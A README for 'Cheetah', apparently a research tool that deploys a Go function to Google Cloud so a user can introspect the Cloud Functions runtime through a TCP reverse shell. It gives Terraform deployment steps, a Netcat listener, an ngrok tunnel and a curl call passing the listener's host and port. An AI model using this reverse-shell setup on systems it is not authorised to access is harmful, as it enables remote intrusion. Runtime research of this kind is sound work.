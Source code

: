 # Puma Prey Cheetah

Cheetah is a Go function that can be deployed to the Google Cloud Platform to establish a TCP reverse shell for the purposes of introspecting the Cloud Functions container runtime.

## Installing Prerequisites

* [Google Cloud SDK](https://cloud.google.com/sdk/install)
* [Go](https://go.dev)
* [Terraform](https://learn.hashicorp.com/terraform/getting-started/install.html)

## Deploying The Function

```bash
gcloud auth application-default login
export TF_VAR_unique_identifier=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}')
export TF_VAR_project_id=YOUR_PROJECT_ID
cd ./cougar/src/terraform/
terraform init
terraform apply --auto-approve
```

## Function Testing

Retrieve the Function URL:

```bash
export CHEETAH_FUNCTION_URL=$(terraform output --json | jq -r '.cheetah_function_url.value')
export CHEETAH_API_KEY=$(terraform output --json | jq -r '.cheetah_api_key.value')
curl -H "X-API-Key: $CHEETAH_API_KEY" "$CHEETAH_FUNCTION_URL"
```

The result should show an error message indicating required C2 parameters are missing:

```json
{"message":"Must provide the host and port for the target TCP server as query parameters."}
```

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
../../../script/prey.sh cheetah --url $CHEETAH_FUNCTION_URL --api-key $CHEETAH_API_KEY
```

See [here](../script/USAGE.md) for more details on how to use this script.

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details:

```bash
curl "$CHEETAH_FUNCTION_URL?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER"
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file.

## Teardown

```bash
terraform destroy
```

## Learning More

Read [documentation](./docs/NOTES.md) on what you can accomplish once you connect to the runtime via Cheetah.
